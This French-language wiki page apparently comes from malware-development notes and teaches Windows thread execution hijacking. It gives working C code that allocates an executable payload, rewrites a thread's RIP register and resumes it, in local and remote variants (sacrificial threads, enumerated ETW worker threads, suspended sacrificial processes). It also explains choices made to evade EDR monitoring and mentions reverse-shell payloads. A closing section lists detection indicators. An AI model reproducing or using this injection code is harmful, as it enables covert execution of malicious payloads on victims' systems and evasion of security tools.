


# Détournement de threads

Le détournement de thread (*thread execution hijacking*) exécute un payload sans jamais créer de nouveau thread. Le principe est simple : on suspend un thread existant, on modifie le registre pointeur d'instruction pour qu'il désigne le début du payload, puis on reprend le thread. À la reprise, c'est le payload qui s'exécute. La technique complète les approches vues dans [[Injection de shellcode]] et se combine naturellement avec [[Énumération des processus]].

## Pourquoi détourner plutôt que créer

La différence tient à l'exposition du payload et à la furtivité. Avec `CreateThread`, le troisième paramètre `lpStartAddress` désigne l'entrée du thread : il pointe forcément sur l'adresse de base du payload, ce qui révèle à la fois son emplacement et son contenu. Avec le détournement, l'entrée du thread reste une fonction légitime ; le thread paraît anodin et l'adresse du payload n'apparaît dans aucune structure de création de thread.

| Critère | Création de thread (`CreateThread`) | Détournement de thread |
|---|---|---|
| Entrée du thread | Adresse du payload | Fonction bénigne |
| Exposition du payload | Base et contenu visibles | Base cachée |
| Nouveau thread | Oui | Non (thread existant réutilisé) |
| API déclenchante | `CreateThread` | `SetThreadContext` |

## Le contexte de thread

Chaque thread possède une priorité d'ordonnancement et un ensemble de structures que le système sauvegarde dans son *contexte* : registres CPU, pile, etc. Ce contexte est tout ce dont le thread a besoin pour reprendre son exécution sans discontinuité. Deux API le manipulent :

- `GetThreadContext` remplit une structure `CONTEXT` décrivant le thread.
- `SetThreadContext` applique une structure `CONTEXT` modifiée au thread ciblé.

`lpContext` est un paramètre IN & OUT : il faut renseigner `CONTEXT.ContextFlags` **avant** l'appel. `CONTEXT_CONTROL` suffit pour la technique (il couvre les registres de contrôle, dont `Rip`), mais `CONTEXT_ALL` fonctionne aussi.

Le cœur du détournement est le registre pointeur d'instruction : `RIP` en 64 bits, `EIP` en 32 bits. Il désigne la prochaine instruction à exécuter et est mis à jour après chaque instruction. Le modifier, c'est changer la suite du programme.



## Détournement local par création de thread

Il est impossible de détourner le thread principal d'un processus local : il faut d'abord suspendre le thread cible, or le thread principal est celui qui exécute le code et ne peut pas se suspendre lui-même. On crée donc un *thread sacrificiel* avec une entrée bénigne, suspendu dès sa création via le drapeau `CREATE_SUSPENDED` (moins d'appels API que créer puis `SuspendThread`).

La fonction de détournement alloue et copie le payload, le rend exécutable (`PAGE_EXECUTE_READWRITE`), lit puis réécrit le contexte :

```c
BOOL RunViaClassicThreadHijacking(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

    PVOID   pAddress        = NULL;
    DWORD   dwOldProtection = NULL;
    CONTEXT ThreadCtx       = { .ContextFlags = CONTEXT_CONTROL };

    pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pAddress == NULL)
        return FALSE;

    memcpy(pAddress, pPayload, sPayloadSize);

    if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection))
        return FALSE;

    if (!GetThreadContext(hThread, &ThreadCtx))
        return FALSE;

    ThreadCtx.Rip = pAddress;   // la prochaine instruction devient le payload

    if (!SetThreadContext(hThread, &ThreadCtx))
        return FALSE;

    return TRUE;
}
```

Le thread sacrificiel est ensuite repris avec `ResumeThread`, qui n'exige que son handle :

```c
hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)&DummyFunction, NULL, CREATE_SUSPENDED, NULL);
RunViaClassicThreadHijacking(hThread, Payload, sizeof(Payload));
ResumeThread(hThread);
```

Une variante exploite des threads déjà présents dans le processus plutôt que d'en créer un.

## Détournement local par énumération de threads

Plutôt que de fabriquer un thread, on énumère les threads du processus courant. `CreateToolhelp32Snapshot` est utilisé avec le drapeau `TH32CS_SNAPTHREAD`, ce qui renvoie une suite de structures `THREADENTRY32` :

```c
typedef struct tagTHREADENTRY32 {
  DWORD dwSize;                 // sizeof(THREADENTRY32)
  DWORD cntUsage;
  DWORD th32ThreadID;           // ID du thread
  DWORD th32OwnerProcessID;     // PID du processus propriétaire
  LONG  tpBasePri;
  LONG  tpDeltaPri;
  DWORD dwFlags;
} THREADENTRY32;
```

Pour savoir si un thread appartient à un processus donné, on compare son PID à `THREADENTRY32.th32OwnerProcessID`. Les API employées sont `CreateToolhelp32Snapshot` (`TH32CS_SNAPTHREAD`), `Thread32First`, `Thread32Next`, `OpenThread` et `GetCurrentProcessId` (le processus cible étant ici le processus local). On exclut le thread principal grâce à son ID.

Les cibles utiles sont les *worker threads* créés par le système lui-même, par exemple `ntdll.dll!EtwNotificationRegister+0x2d0`, liés à ETW (Event Tracing for Windows). Aucun `CreateThread` n'apparaît dans le code du malware : les threads visés existent déjà.

Avant le détournement, on suspend explicitement le thread avec `SuspendThread`, puis on applique la même séquence lecture / réécriture de `Rip` / reprise. Bon à savoir : un payload de reverse shell laisse le processus vivant, alors qu'un shellcode de type `calc` termine le thread appelant et provoque l'arrêt du processus local.

## Détournement distant par énumération de threads

La logique est identique, mais deux différences comptent. D'abord, le PID cible est fourni en paramètre au lieu d'être obtenu via `GetCurrentProcessId`. Ensuite, le thread principal distant est une cible parfaitement valide : on peut le suspendre, ce qui n'était pas possible localement.

```c
BOOL GetRemoteThreadhandle(IN DWORD dwProcessId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {
    // ... CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL) + Thread32First/Thread32Next
    if (Thr.th32OwnerProcessID == dwProcessId) {
        *dwThreadId = Thr.th32ThreadID;
        *hThread    = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);
    }
    // ...
}
```

## Détournement distant par création de processus

Contre un processus distant, on n'utilise pas `CreateRemoteThread` pour fabriquer un thread sacrificiel : cette API est massivement abusée et donc surveillée. On crée à la place un *processus sacrificiel* suspendu avec `CreateProcess` et le drapeau `CREATE_SUSPENDED`, ce qui suspend d'office tous ses threads.

`CreateProcessA` attend notamment `lpApplicationName` / `lpCommandLine`, `dwCreationFlags`, un `STARTUPINFO` (seul `cb` doit être rempli) et un `PROCESS_INFORMATION` en sortie :

```c
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;      // handle du nouveau processus
  HANDLE hThread;       // handle du thread principal
  DWORD  dwProcessId;   // PID
  DWORD  dwThreadId;    // ID du thread principal
} PROCESS_INFORMATION;
```

Le chemin complet du binaire est reconstruit à partir de la variable d'environnement `WINDIR` via `GetEnvironmentVariableA` plutôt que codé en dur, ce qui rend le code portable entre installations Windows.

```c
GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH);
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);

CreateProcessA(NULL, lpPath, NULL, NULL, FALSE,
               CREATE_SUSPENDED, NULL, NULL, &Si, &Pi);
```

Le payload est ensuite écrit dans l'espace distant **sans être exécuté** — c'est le rôle de `VirtualAllocEx` + `WriteProcessMemory` + `VirtualProtectEx` (`PAGE_EXECUTE_READWRITE`), la fonction `InjectShellcodeToRemoteProcess` déjà vue dans [[Injection de shellcode]]. L'adresse de base renvoyée sert ensuite au détournement via le handle de thread rendu par `CreateProcessA`.



## Amplitude de la reprise

Le `HijackThread` de ces variantes suspend le thread si nécessaire, récupère le contexte, écrit `Rip`, réapplique le contexte, puis `ResumeThread` et `WaitForSingleObject(hThread, INFINITE)`. En énumération locale, l'exécution peut être lente : le thread détourné n'est pas le thread principal et ne tourne pas en continu.

## Détection et limites

- `SetThreadContext` modifiant `Rip` est un signal fort, surtout suivi d'un `ResumeThread` immédiat ; les EDR surveillent cette séquence (voir [[Introduction aux EDR]] et [[Mécanismes de détection]]).
- `OpenThread` avec `THREAD_ALL_ACCESS` sur un thread étranger est anormal.
- `CreateProcess` avec `CREATE_SUSPENDED` suivi d'écritures mémoire distantes dessine une chaîne d'injection classique.
- Le payload dans une région privée `RWX` reste un indicateur, ce que corrigent justement [[Injection par mapping]] et [[Function stomping]].
- Les variantes par énumération dépendent de la présence de threads exploitables ; les worker threads système sont fiables, contrairement aux threads applicatifs.
